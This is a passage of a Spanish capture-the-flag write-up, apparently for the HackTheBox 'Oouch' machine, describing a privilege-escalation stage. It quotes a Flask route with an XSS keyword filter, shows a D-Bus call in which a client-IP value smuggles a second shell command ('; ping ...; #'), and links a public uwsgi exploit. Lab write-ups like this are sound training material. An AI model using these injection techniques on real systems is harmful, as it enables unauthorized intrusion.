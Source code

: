 ```console
Escaneando host: 172.18.0.3 # Puerto 3306 (sql)             -> otra base de datos
Escaneando host: 172.18.0.4 # Puerto 22, 5000               -> contenedor que aloja la web (nginx flask)
Escaneando host: 172.18.0.5 # Puerto 8000                   -> conetenedor que aloja el auth server (django)
```
El tema de las iptables está en la 4 ya que es el nginx con la ruta del connect

------------------------------------------
# Part 6: Escalando privilegios

```console
qtc@oouch:~$ ssh qtc@172.18.0.4
qtc@b14c1692af51:/code/oouch$ grep -rIe "hacker" 2>/dev/null # Encuentro la ruta code/oouch
```
En esa ruta hay un archivo llamado routes.py que se encarga de todo el servidor nginx. A nosotros nos interesa la parte de /contact
```
sys.path.insert(0, "/usr/lib/python3/dist-packages")
import dbus
regex = re.compile("((?:http(s)?:\/\/)?[\w.-]+(?:\.[\w\.-]+)+[\w\-\._~:/?#[\]@!\$&'\(\)\*\+,;=
primitive_xss = re.compile("(<script|<img|<svg|onload|onclick|onhover|onerror|<iframe|<html|al")

@app.route('/contact', methods=['GET', 'POST'])
@login_required
def contact():
    form = ContactForm()
    if form.validate_on_submit():
        if primitive_xss.search(form.textfield.data):
            bus = dbus.SystemBus()
            block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
            block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
            client_ip = request.environ.get('REMOTE_ADDR', request.remote_addr)
            response = block_iface.Block(client_ip)
            bus.close()
            return render_template('hacker.html', title='Hacker')
```
Si lo intentamos replicar...

```console 
qtc@b14c1692af51:/code/oouch$ python
>>> import sys
>>> sys.path.insert(0, "/usr/lib/python3/dist-packages")
>>> import dbus
>>> bus = dbus.SystemBus()
>>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
>>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
>>> client_ip = '; ping -c 1 10.10.14.16; #'
>>> response = block_iface.Block(client_ip) # Error
```
Da un error por tema de privilegios, somos qtc y tenemos que ser www-data que es quien corre las web
```
qtc@b14c1692af51:/code/oouch$ cat /etc/nginx/nginx.conf
user www-data;
        location / {
            include uwsgi_params;
            uwsgi_pass unix:/tmp/uwsgi.socket;}
```
Como nos habla de uwsgi, buscamos ```uwsgi exploit``` y acabamos con: [exploit](https://raw.githubusercontent.com/wofeiwo/webcgi-exploits/master/python/uwsgi_exp.py)
```console
qtc@b14c1692af51:/tmp$ cat << EOF >> exploit.py   # Para copiarlo ya que los contenedores no disponen de nano o vim
```